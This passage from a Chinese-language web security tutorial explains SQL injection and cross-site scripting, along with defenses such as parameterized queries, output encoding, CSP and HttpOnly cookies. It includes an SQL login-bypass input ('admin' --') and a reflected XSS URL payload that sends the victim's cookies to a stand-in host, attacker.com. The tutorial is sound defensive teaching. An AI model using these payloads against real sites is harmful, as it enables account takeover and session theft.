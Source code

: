 在这里，`$username` 和 `$password` 是从用户输入中获取的。攻击者可以在用户名或密码字段中输入恶意 SQL 代码，例如在用户名字段中输入：`admin' --`。这会导致生成以下查询：

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = '';
```

在这个例子中，`--` 是 SQL 中的注释符号，从而使得密码验证部分被注释掉，攻击者可以绕过密码验证，成功登录管理员账户。

为了防止 SQL 注入攻击，可以采取以下措施：

1. 参数化查询：使用参数化查询（也称为预编译语句或绑定变量）来与数据库交互，而不是直接在 SQL 语句中拼接用户输入。在SQL语句中，变量用?表示，攻击者就无法改变SQL的结构。参数化查询会将用户输入作为参数传递给查询，而不是作为查询的一部分，从而避免 SQL 注入。
2. 输入验证：对用户输入进行严格的验证，限制允许的字符集和格式。例如，可以限制用户名和密码只包含字母和数字。
3. 使用存储过程：将 SQL 代码封装在数据库中的存储过程中，并通过参数调用这些过程。这样可以确保 SQL 代码不受用户输入的影响。
4. 最小权限原则：限制应用程序连接数据库的权限，使其只能访问必要的数据和执行必要的操作，避免使用root等高级权限账户直接连接数据库。这样即使攻击者发起了 SQL 注入攻击，对数据库的潜在破坏也会受到限制。
5. 数据库错误处理：不要向用户显示详细的数据库错误信息，因为这可能为攻击者提供有关数据库结构和配置的敏感信息。应该将详细的错误信息记录在日志中，并向用户显示简洁的错误消息。

## 跨站脚本攻击（XSS攻击）

跨站脚本攻击（Cross-Site Scripting，简称 XSS）是一种常见的网络安全漏洞，攻击者通过在 Web 应用中注入恶意的脚本（通常为 JavaScript），以受害者身份在其浏览器上执行这些脚本。这种攻击方式通常是由于对用户输入的不充分验证和处理导致的。

XSS 攻击主要分为三类：

1. 反射型 XSS：恶意脚本通过 URL 参数传递，当用户点击含有恶意链接的网站或邮件时，攻击者的脚本随请求发送到服务器。攻击者可以构造一个恶意链接，将包含恶意脚本的关键词作为 URL 参数传递：

   ```php
   https://example.com/search?search=<script>document.location='https://attacker.com/steal?cookie='+encodeURIComponent(document.cookie);</script>
   ```

   当受害者点击这个恶意链接时，恶意脚本会作为参数发送到服务器，然后服务器将脚本嵌入到响应页面中。最后，当受害者浏览器加载页面时，恶意脚本被执行。在这个例子中，恶意脚本将受害者的 Cookie 信息发送到攻击者控制的网站。

2. 存储型 XSS：恶意脚本被存储在服务器上，当受害者访问包含恶意脚本的页面时，脚本被加载并执行。比如，黑客写下一篇含有恶意代码的博客文章，所有访问该博客文章的用户都会在他们的浏览器中执行这段恶意的代码，就会把恶意的脚本保存到服务端。

3. DOM 型 XSS：这类攻击不涉及服务器，而是在客户端通过操纵 DOM（文档对象模型）实现。攻击者在 URL 参数或其他输入途径中注入恶意脚本，然后通过客户端 JavaScript 代码将脚本插入到 DOM 中并执行。

XSS 攻击可能导致以下危害：

- 窃取用户敏感信息（如 Cookie、会话令牌等）
- 模拟用户行为
- 利用受害者的身份执行恶意操作
- 向受害者展示虚假信息

为了防止 XSS 攻击，可以采取以下措施：

1. 输入验证：对用户输入进行严格的验证，限制允许的字符集和格式。

2. 输出编码：在将用户输入插入到 HTML 页面中之前，对其进行适当的编码，以防止恶意脚本被解释执行。例如，将尖括号 `<` 和 `>` 转换为 HTML 实体 `&lt;` 和 `&gt;`。

3. 使用内容安全策略（CSP）：CSP 是一种安全特性，可以限制浏览器加载和执行外部资源（如脚本、样式表等）。通过配置 CSP，可以限制脚本来源、禁止内联脚本执行等，从而降低 XSS 攻击的风险。

4. 使用 HttpOnly Cookie：将敏感信息（如会话令牌）存储在 HttpOnly Cookie 中，这样 JavaScript 无法访问这些 Cookie，即使发生 XSS 攻击，攻击者也无法窃取这些敏感信息。
